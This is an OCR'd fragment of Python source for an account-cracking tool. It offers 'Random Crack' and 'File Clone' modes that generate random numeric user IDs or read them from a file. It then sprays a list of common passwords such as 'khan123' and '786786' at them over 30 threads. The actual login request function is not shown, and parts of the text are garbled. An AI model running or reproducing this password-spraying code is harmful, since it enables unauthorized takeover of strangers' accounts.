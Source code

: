     print(f'{rad}SUBSCRIBE kr liya kry 😕{white} ')
    print(50*  print(f'{white}{green} [1]{white} Random Crack')
    print(f'{white}{green} [2]{white} File Clone')
    print(f'{white}{green} [0]{white} Close Project')
    print(50*"-")
    EvilX = input(f'{white} [{rad}?{white}] Select Code : {green}')
    if EvilX in ['1','01']:
        random_number()
    elif EvilX in ['2','02']:
        file_crack()
    elif EvilX in ['0','00']:
        exit()
    else:
        print(f'{white}[{green}â„…{white}] select one option ')
#______[ RANDOM NUMBER CRACK ]______>>
def random_number():
    logo()
    code = input(f"[{green}+{white}] Input Number Code : ")
    try:
        limit = int(input(f"[{green}+{white}] Input Limit Crack : "))
    except ValueError:
        limit = 5000
    for i in range(limit):
        user_ID.append(str(random.randint(1111111, 9999999)))
    pwx = ['first7digit','last7digit','first6digit,''last6digit','fullnumber','khankhan','khan12345','khan123','baloch123','khan1122','baloch','kingkhan','afghanistan','pakistan','786786','full_number']
    with ThreadPool(max_workers=30) as BilalHaiderID:
        total = str(len(user_ID))
        logo()
        print(f" {green}[*]{white} Total UID for Crack : {total}")
        print(f" {green}[*]{white} Total Password for Crack : {str(len(pwx))}")
        print(f" {green}[*]{white} Code for UID Dump : {str(code)}")
        print(50*'-')
        for user in user_ID:
            uid = code+user
            BilalHaiderID.submit(bapi,uid,pwx,total)
    print(50*"-")
    print(f"\n{white}[{green}â€¢{white}] process Has been Completed")
    print(f"{white}[{green}â€¢{white}] Total Ids : {len(oks)} ")
#___________[ FILE CLONING OLD / NEW ]__________>>
def file_crack():
    logo()
    fileX = input(f"[{green}+{white}] Input File Path : ")
    try:
        file_data = open(fileX,"r").read()
    except FileNotFoundError:
        exit(f"\n{rad} file not found ... ")
    except PermissionError:
        exit(f"\n{rad} allow the permission ... ")
    try:
        limit = int(input(f"\n[{green}+{white}] Input Password Limit : "))
        if limit > 9:
            limit = 3
    except ValueError:
        limit = 3
    logo()
    print(f" {green}[*]{white}  example : first last - firstlast")
    print(f" {green}[*]{white}  example : first123 - last1234")
    print(f" {green}[*]{white}  example : firstlast123 - 786786 - khankhan")
    print(50*'-')
    for i in range(limit):
        password = input(f"[{green}+{white}] Input Password {str(i+1)} : ")
        if len(password) >= 6:
            pwx.append(password)